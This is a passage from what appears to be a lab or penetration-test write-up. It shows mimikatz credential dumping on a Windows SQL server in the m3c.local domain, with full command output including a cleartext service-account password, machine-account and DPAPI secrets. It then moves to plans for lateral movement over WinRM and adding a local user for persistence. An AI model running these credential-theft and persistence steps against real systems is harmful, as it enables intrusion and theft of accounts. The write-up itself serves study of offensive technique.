 * Process Token : {0;000003e7} 0 D 3954633   	NT AUTHORITY\SYSTEM	S-1-5-18	(15g,28p)	Primary
 * Thread Token  : {0;000003e7} 1 D 3978641   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # sekurlsa::msv
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz(commandline) # exit
Bye!

C:\temp>
```

It is failing, wondering if defender is messing up? But running a check on secrets we can export the cleartext password of svc_sql:

```
C:\temp>mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

544	{0;000003e7} 1 D 28554     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;000003e7} 0 D 3983687   	NT AUTHORITY\SYSTEM	S-1-5-18	(15g,28p)	Primary
 * Thread Token  : {0;000003e7} 1 D 4007639   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # lsadump::secrets
Domain : M3SQLW
SysKey : 2aa1b3c2027d47c1a8432f8d2e455268

Local name : M3SQLW ( S-1-5-21-907414912-929592110-1210139672 )
Domain name : M3C ( S-1-5-21-340507432-2615605230-720798708 )
Domain FQDN : m3c.local

Policy subsystem is : 1.14
LSA Key(s) : 1, default {13862413-3e9e-314e-3ffe-87be71ec6dab}
  [00] {13862413-3e9e-314e-3ffe-87be71ec6dab} 2095110512fc746cf6f75d936ff9f45846381604debfbe028652318bcf5258df

Secret  : $MACHINE.ACC
cur/text: @fidTp((zLz,Vrz)[N@><$>wT$8#NZ`(LTL@Y]`5t:R.y96l6X+3YULRu=D_C2<<,p\:@w*v+DHSR3`ehM#(q8mFd7;M/r%4*OtSPntsp6K9@bOK1_gqkPEu
    NTLM:a09cbeb5c0e16d1e926c5b3d884949a4
    SHA1:bc21fb144077f2ff12614f3fcfab3a1afb1441dd
old/text: @fidTp((zLz,Vrz)[N@><$>wT$8#NZ`(LTL@Y]`5t:R.y96l6X+3YULRu=D_C2<<,p\:@w*v+DHSR3`ehM#(q8mFd7;M/r%4*OtSPntsp6K9@bOK1_gqkPEu
    NTLM:a09cbeb5c0e16d1e926c5b3d884949a4
    SHA1:bc21fb144077f2ff12614f3fcfab3a1afb1441dd

Secret  : DefaultPasswordERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO

old/text: 6IVx7cxECM6m57WVjrqfH1gvluKnvN

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 42 46 de 32 5d f1 1b 03 5c 75 ae 38 55 b4 35 de 60 d1 8c d7 75 bd 3f f4 aa 4d 5c 2e e4 69 4a 2d 43 b7 d8 af 2c 6d 78 a7 
    full: 4246de325df11b035c75ae3855b435de60d18cd775bd3ff4aa4d5c2ee4694a2d43b7d8af2c6d78a7
    m/u : 4246de325df11b035c75ae3855b435de60d18cd7 / 75bd3ff4aa4d5c2ee4694a2d43b7d8af2c6d78a7
old/hex : 01 00 00 00 0c 00 62 f2 11 9b c5 7d 9f 23 74 f3 34 09 e2 ce 39 1d dc 9f a8 d0 d0 0a b7 72 2e 4a b7 d5 94 23 e0 ea 99 03 29 6b ed 63 
    full: 0c0062f2119bc57d9f2374f33409e2ce391ddc9fa8d0d00ab7722e4ab7d59423e0ea9903296bed63
    m/u : 0c0062f2119bc57d9f2374f33409e2ce391ddc9f / a8d0d00ab7722e4ab7d59423e0ea9903296bed63

Secret  : NL$KM
cur/hex : d8 33 7f 7b a3 2c de 15 cf b4 9a 10 37 3f 6b a9 4e 49 46 70 57 27 e8 1e e8 a9 11 a8 1d ef 19 0c cc 43 92 f3 9c c7 51 1a 06 56 6d 60 da 73 22 74 81 ec b4 9f 69 fc 6a 8a c8 52 e6 f5 03 56 0d 59 
old/hex : d8 33 7f 7b a3 2c de 15 cf b4 9a 10 37 3f 6b a9 4e 49 46 70 57 27 e8 1e e8 a9 11 a8 1d ef 19 0c cc 43 92 f3 9c c7 51 1a 06 56 6d 60 da 73 22 74 81 ec b4 9f 69 fc 6a 8a c8 52 e6 f5 03 56 0d 59 

Secret  : _SC_MSSQL$SQLEXPRESS / service 'MSSQL$SQLEXPRESS' with username : m3c.local\svc_sql
cur/text: ef8Mahvae2j1

Secret  : _SC_SQLTELEMETRY$SQLEXPRESS / service 'SQLTELEMETRY$SQLEXPRESS' with username : NT Service\SQLTELEMETRY$SQLEXPRESS

mimikatz(commandline) # exit
Bye!
```

Now can we use those credentials somehow?



Yeah then we should be able to move to evil.winrm instead and dump this bad shell session! But before I will add a local user so I can gain a better shell in future



Seems like the login via non domain joined account isn't possible? I will try to add manually to the Remote Management users built-in group used by WIN-RM and remote powershell...




Indeed the account wasn't part and beeing an admin wasn't enought. now I should be able right? Answer: still no!

Even if I added my machine to the group!

I will check for other nics! But nothing so far:



I feel confortable that we can move now to DC/WEBApp since not much in held here...

&nbsp;

&nbsp;